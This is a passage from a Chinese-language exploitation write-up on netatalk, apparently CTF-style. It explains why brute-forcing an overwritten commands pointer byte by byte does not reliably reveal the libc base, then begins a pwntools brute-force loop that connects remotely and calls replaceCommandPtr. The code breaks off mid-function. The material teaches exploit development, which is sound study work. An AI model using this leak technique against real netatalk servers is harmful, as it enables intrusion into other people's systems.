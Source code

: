![malloc_addr](/img/netatalk/malloc_addr.png)
![mmap_addr](/img/netatalk/mmap_addr.png)
网上部分wp认为，该地址即为泄露出的地址，只要通过爆破猜解出该地址，自然可以通过减去偏移获取libc地址。然而，这个爆破出来的地址，并不一定是commands指针所对应的地址，更不一定是mmap的基址。如果对于每一个自己从255向0爆破，那么最后爆破出来的地址是一个比commands更高的地址；如果从0向255爆破，那么最后爆破出来的地址是一个比commands更低的地址，并且还有可能比libc的地址还要低。只要这个地址是可写的，又正好在我们的爆破路径上，那么结果就可能会是它。这里我们先不管这么多，先爆破出来再说，具体之后怎么用，下面再讲。爆破代码如下：

```python
def bruteforce():
    leak_addr = b''
    flag_str = struct.pack('>I', FLAG_VAL)
    # num = 0
    while len(leak_addr) < 6:
        # from 255 to 0 for each byte, get an address that is below libc_base
        for i in range(255, -1, -1):
            io = remote(IP, PORT)
            cur_byte = p8(i)
            addr = leak_addr + cur_byte
            reply = replaceCommandPtr(io, addr)
            if reply is None:
                io.close()
```
